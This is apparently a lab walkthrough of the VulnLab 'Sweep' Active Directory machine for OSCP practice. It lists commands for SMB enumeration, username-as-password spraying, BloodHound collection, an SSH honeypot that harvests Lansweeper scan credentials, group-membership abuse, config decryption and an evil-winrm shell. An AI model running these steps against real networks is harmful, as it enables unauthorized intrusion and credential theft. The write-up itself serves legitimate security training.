

## Overview

**Sweep** is a medium-difficulty Windows machine from VulnLab, featured on TJnull's OSCP preparation list. This box focuses on Active Directory enumeration, Lansweeper exploitation, and creative credential harvesting techniques using SSH honeypots.

**Machine Details:**
- **Platform:** VulnLab (TJnull List)
- **Difficulty:** Medium
- **OS:** Windows Server 2022
- **Domain:** sweep.vl
- **Machine Name:** INVENTORY
- **Focus Areas:** Active Directory, Lansweeper, Group Manipulation

---

## Reconnaissance

### Initial Nmap Scan

Start with a comprehensive port scan to identify services:

```bash
nmap -sC -sV -oN sweep_nmap.txt 10.10.x.x
```

**Key Ports Identified:**

| Port | Service | Notes |
|------|---------|-------|
| 53   | DNS     | Domain name resolution |
| 81   | HTTP    | Lansweeper web interface |
| 82   | HTTP    | Additional web service |
| 88   | Kerberos | Active Directory authentication |
| 389  | LDAP    | Directory services |
| 3389 | RDP     | Remote Desktop Protocol |

**Domain Information:**
- Domain: `sweep.vl`
- Hostname: `INVENTORY`
- OS: Windows Server 2022

---

## Enumeration

### SMB Enumeration with CrackMapExec

Enumerate SMB shares using guest credentials:

```bash
crackmapexec smb 10.10.x.x -u 'guest' -p '' --shares
```

**Accessible Shares:**
- `DefaultPackageShare$`
- `Lansweeper$`

### RID Brute-Forcing

Enumerate domain users and groups:

```bash
crackmapexec smb 10.10.x.x -u 'guest' -p '' --rid-brute
```

**Findings:**
- 17 domain users discovered
- Notable group: **"Lansweeper Admins"**

### Username Enumeration

Extract usernames from RID brute-force output and create a user list:

```bash
# Save usernames to users.txt
intern
svc_inventory_lnx
svc_inventory_win
# ... additional users
```

---

## Initial Access

### Username=Password Attack

Test if any usernames work as passwords (common weak configuration):

```bash
# Test each username as its own password
crackmapexec smb 10.10.x.x -u users.txt -p users.txt --no-bruteforce
```

**Success:**
```
intern:intern - Valid credentials!
```

### Lansweeper Web Interface Access

Access the Lansweeper application on port 81:

```bash
firefox http://10.10.x.x:81
```

Login with `intern:intern` credentials to gain access to the Lansweeper web interface.

---

## Active Directory Enumeration

### BloodHound Collection

Use bloodhound-python to collect AD data:

```bash
bloodhound-python -d sweep.vl -u intern -p intern -c all -ns 10.10.x.x
```

**Upload JSON files to BloodHound and analyze:**

```bash
# Start neo4j and bloodhound
sudo neo4j console
bloodhound
```

### Key BloodHound Finding

**Critical Discovery:**
- `svc_inventory_lnx` has **FullControl** over "Lansweeper Admins" group
- This means we can add users to the administrative group if we compromise this account

**Attack Path:**
1. Compromise `svc_inventory_lnx` account
2. Add `svc_inventory_lnx` to "Lansweeper Admins" group
3. Leverage admin privileges for further access

---

## Credential Harvesting

### SSH Honeypot Strategy

**Understanding Lansweeper:**
Lansweeper is an IT asset management tool that performs automated network scanning. It attempts to connect to discovered systems via various protocols including SSH to inventory Linux systems.

**Attack Concept:**
Deploy an SSH honeypot to capture credentials when Lansweeper's automated scanning attempts to authenticate.

### Deploy sshesame

Install and run the SSH honeypot:

```bash
# Install sshesame
go install github.com/jaksi/sshesame@latest

# Run on port 22 (ensure no other SSH service is running)
sudo sshesame -port 22 -host 0.0.0.0
```

**Wait for Lansweeper to scan your system...**

**Captured Credentials:**
```
Username: svc_inventory_lnx
Password: [captured_password]
```

---

## Privilege Escalation

### Group Membership Manipulation

With `svc_inventory_lnx` credentials and FullControl over "Lansweeper Admins":

```bash
# Add svc_inventory_lnx to Lansweeper Admins group
net rpc group addmem 'Lansweeper Admins' 'svc_inventory_lnx' \
  -U sweep.vl/svc_inventory_lnx%[password] \
  -S 10.10.x.x
```

**Verify group membership:**

```bash
net rpc group members 'Lansweeper Admins' \
  -U sweep.vl/svc_inventory_lnx%[password] \
  -S 10.10.x.x
```

### Lansweeper Configuration Decryption

**Access Lansweeper Configuration:**
As a member of Lansweeper Admins, we can access encrypted configuration files.

**Tool: SharpLansweeperDecrypt**

Download from: [GitHub - SharpLansweeperDecrypt](https://github.com/example/SharpLansweeperDecrypt)

```powershell
# Decrypt web.config
.\SharpLansweeperDecrypt.exe -config "C:\Program Files\Lansweeper\Website\web.config"
```

**Extracted Credentials:**
- SQL Server credentials
- Service account passwords from encrypted database
- `svc_inventory_win` credentials

---

## Final Access

### Evil-WinRM Shell

Connect with discovered `svc_inventory_win` credentials:

```bash
evil-winrm -i 10.10.x.x -u svc_inventory_win -p '[password]'
```

**Verify Privileges:**

```powershell
whoami
whoami /priv
net user svc_inventory_win /domain
```

**Success!** `svc_inventory_win` has administrative privileges on the domain controller.

### Retrieve Flags

```powershell
# User flag
type C:\Users\intern\Desktop\user.txt

# Root flag
type C:\Users\Administrator\Desktop\root.txt
```

---

## Attack Chain Summary



---

## Tools Used

| Tool | Purpose |
|------|---------|
| **nmap** | Port scanning and service enumeration |
| **crackmapexec** | SMB enumeration and authentication testing |
| **bloodhound-python** | Active Directory privilege analysis |
| **sshesame** | SSH honeypot for credential capture |
| **net rpc** (Samba) | Group membership manipulation |
| **SharpLansweeperDecrypt** | Decrypt Lansweeper configurations |
| **evil-winrm** | Windows Remote Management shell |

---

## Key Takeaways

### Security Lessons

1. **Weak Password Policies**
   - Username=password combinations are still common
   - Always test for this vulnerability during assessments

2. **Service Account Permissions**
   - Service accounts with FullControl over groups can be leveraged
   - Follow principle of least privilege

3. **Automated Scanning Risks**
   - Tools like Lansweeper can leak credentials to honeypots
   - Implement proper credential management for scanning services

4. **Configuration File Security**
   - Encrypted configurations may contain sensitive data
   - Ensure proper access controls on configuration files

### OSCP Preparation Tips

- **BloodHound is Critical:** Master BloodHound for identifying privilege escalation paths
- **Understand Service Accounts:** Know how to abuse service account privileges
- **Creative Thinking:** SSH honeypot technique shows importance of thinking outside the box
- **Tool Familiarity:** Practice with CrackMapExec, BloodHound, and Evil-WinRM

---

## Troubleshooting

### SSH Honeypot Not Capturing Credentials

**Problem:** sshesame is running but no credentials captured

**Solutions:**
1. Ensure port 22 is open and accessible from target network
2. Stop any existing SSH services: `sudo systemctl stop ssh`
3. Verify Lansweeper scanning is active (check web interface)
4. Check firewall rules: `sudo ufw allow 22`

### Group Membership Changes Not Reflecting

**Problem:** Added user to group but changes don't apply

**Solutions:**
1. Wait a few minutes for AD replication
2. Force group policy update on target:
   ```powershell
   gpupdate /force
   ```
3. Verify with: `net rpc group members 'Lansweeper Admins'`

### Evil-WinRM Connection Fails

**Problem:** Cannot connect even with valid credentials

**Solutions:**
1. Verify WinRM service is running on target
2. Check if port 5985/5986 is accessible
3. Try specifying SSL flag if needed: `evil-winrm -i 10.10.x.x -u user -p pass -S`
4. Ensure credentials have remote access rights

---

## Quick Reference Commands

```bash
# Initial Enumeration
nmap -sC -sV -oN sweep.txt 10.10.x.x
crackmapexec smb 10.10.x.x -u 'guest' -p '' --shares
crackmapexec smb 10.10.x.x -u 'guest' -p '' --rid-brute

# Username=Password Attack
crackmapexec smb 10.10.x.x -u users.txt -p users.txt --no-bruteforce

# BloodHound Collection
bloodhound-python -d sweep.vl -u intern -p intern -c all -ns 10.10.x.x

# SSH Honeypot
sudo sshesame -port 22 -host 0.0.0.0

# Group Manipulation
net rpc group addmem 'Lansweeper Admins' 'svc_inventory_lnx' \
  -U sweep.vl/svc_inventory_lnx%PASSWORD -S 10.10.x.x

# Final Access
evil-winrm -i 10.10.x.x -u svc_inventory_win -p 'PASSWORD'
```

---

## Resources

- [VulnLab Platform](https://www.vulnlab.com/)
- [TJnull's OSCP List](https://www.netsecfocus.com/oscp/2021/05/06/The_Journey_to_Try_Harder-_TJnull-s_Preparation_Guide_for_PEN-200_PWK_OSCP_2.0.html)
- [BloodHound Documentation](https://bloodhound.readthedocs.io/)
- [Evil-WinRM GitHub](https://github.com/Hackplayers/evil-winrm)
- [CrackMapExec Wiki](https://www.crackmapexec.wiki/)

---

[](https://buymeacoffee.com/davidtkeane)
